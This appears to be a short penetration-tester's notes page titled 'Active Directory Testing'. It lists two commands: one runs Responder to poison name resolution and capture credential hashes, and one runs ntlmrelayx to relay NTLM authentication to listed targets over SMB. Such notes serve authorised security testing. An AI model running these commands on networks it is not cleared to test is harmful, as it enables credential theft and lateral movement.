 ```yaml
---
title: "Active Directory Testing"
permalink: /AD_testing/
layout: single
author-profile: true
---
```

## Responder
`Run responder - python Responder.py -I eth0 -rdw`

## NTLMrelay
`Python ntlmrelayx.py -tf <target file> -smb2support`


